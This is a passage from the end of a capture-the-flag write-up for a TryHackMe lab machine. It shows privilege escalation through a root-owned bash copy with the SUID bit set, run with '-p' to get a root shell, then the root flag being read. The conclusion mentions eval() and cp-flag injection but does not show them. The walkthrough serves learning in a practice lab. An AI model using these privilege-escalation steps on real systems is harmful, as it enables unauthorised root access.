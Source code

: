 ```bash
-rwsr-sr-x 1 root   root   1183448 Jan  6 00:50 bash
-rw-r--r-- 1    640 gordon      57 Jan  6 00:50 report1
-rw-r--r-- 1    640 gordon      72 Jan  6 00:50 report2
-rw-r--r-- 1    640 gordon     100 Jan  6 00:50 report3
```
Now I have `bash` owned by root, with the SUID bit set. I can access the root account now like so:
```bash
gordon@devie:~/backups$ ./bash -p
bash-5.0# whoami
root
```
# Collection: Data from Local System
Now, with root access I can find the final flag:
```bash
bash-5.0# cat /root/root.txt 
THM{REDACTED}
```

# Conclusion
Another fun exercise from THM. While I was familiar with the dangers of `eval()`, this was my first time actually exploiting it in a script. I also enjoyed figuring out how to inject the `--preserve=mode` flag into the `cp` command inside of the `backup` script. 

I will be trying a different format for my write-ups going forward. I will first produce a simple walkthrough of the CTF, and will then create a report of the engagement as a separate post.

The report for this room will be found [here.]
